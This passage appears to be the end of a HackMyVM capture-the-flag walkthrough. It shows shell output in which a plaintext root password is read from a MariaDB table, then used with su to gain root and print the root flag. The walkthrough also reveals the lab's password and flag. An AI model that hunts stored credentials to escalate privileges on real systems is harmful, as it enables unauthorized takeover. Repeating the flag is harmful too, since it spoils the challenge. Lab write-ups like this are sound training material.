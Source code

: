 ```
+----------------+
| Tables_in_easy |
+----------------+
| logging        | ←
+----------------+
1 row in set (0,000 sec)

MariaDB [easy]> select * from logging; ←
+--------+------+--------------+
| id_log | uzer | pazz         |
+--------+------+--------------+
|      1 | root | OhItwasEasy! | ←
+--------+------+--------------+
1 row in set (0,015 sec)
```
`exit`

`su root`:
```
Contraseña: ←
```

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=0(root) gid=0(root) grupos=0(root) ←
```

`cd /root`
`ls -alps`:
```
total 32
4 drwx------  4 root root 4096 jul  4  2023 ./
4 drwxr-xr-x 18 root root 4096 jul  4  2023 ../
0 lrwxrwxrwx  1 root root    9 jul  4  2023 .bash_history -> /dev/null
4 -rw-r--r--  1 root root  571 abr 10  2021 .bashrc
4 drwxr-xr-x  3 root root 4096 jul  4  2023 .local/
4 -rw-------  1 root root  567 jul  4  2023 .mysql_history
4 -rw-r--r--  1 root root  161 jul  9  2019 .profile
4 -rw-------  1 root root   24 jul  4  2023 rutflag.txt ←
4 drwx------  2 root root 4096 jul  4  2023 .ssh/
```

`cat ./rutflag.txt`:
```
HMVnuTkm4MwFQNPmMJHRyW7 ←
```

<img src="https://hackmyvm.eu/img/correctflag.png" alt="Machine Hacked!" width="150"/>

---
---
